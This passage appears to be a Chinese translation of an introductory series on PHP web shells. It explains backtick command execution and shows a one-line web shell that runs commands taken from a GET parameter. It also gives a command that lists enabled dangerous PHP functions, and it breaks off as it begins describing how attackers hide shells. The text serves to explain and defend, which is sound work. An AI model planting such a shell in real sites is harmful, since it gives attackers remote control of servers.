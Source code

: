
令人惊讶的是，没有很多PHP开发人员意识到这一点，而且，PHP将执行反引号（`）的内容作为shell命令。

    
    <code>注 - 反引号字符（`），不应与单引号字符（'）混淆
    
    <?php
    $output = `whoami`;
    echo "<pre>$output</pre>";
    ?>
    
    --> www-data
    </code>


基于上述，以下是最简单形式的PHP web-shell。

    
    <code><?php system($_GET['cmd']);?>
    </code>


它使用system（）函数来执行通过' cmd'HTTP请求GET参数传递的命令。

![](http://www.acunetix.com/wp-content/uploads/2016/06/image01.png)

可以确定这些功能（和其他几个）可能非常危险。更危险的是，当安装PHP时，默认情况下所有这些内置的PHP命令都被启用，并且大多数系统管理员不禁用它们。

如果您不确定是否在您的系统上启用，下面的命令（需要安装PHP CLI）将返回已启用的危险功能的列表。

    
    <code>php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>
    </code>


在默认安装中，我们可以看到上面提到的所有函数都已启用。

    
    <code>[669] => exec
    [670] => system
    [673] => passthru
    [674] => shell_exec
    [675] => proc_open
    [786] => show_source
    [807] => parse_ini_file
    [843] => popen
    </code>




# 使web shell保持隐蔽 - Web Shell介绍 Part 2


在上一部分中，我们研究了PHP编程语言中的web-shell的具体示例。本部分，我们将介绍攻击者使用的一些技术来保护webshell。

命令可以使用各种方法发送到Web-Shell，HTTP POST请求是最常见的。然而，黑客不是根据规则玩的人。以下是一些可能的小技巧，攻击者可以在监控下保证web shell不被监测到。


## 1. 修改headers

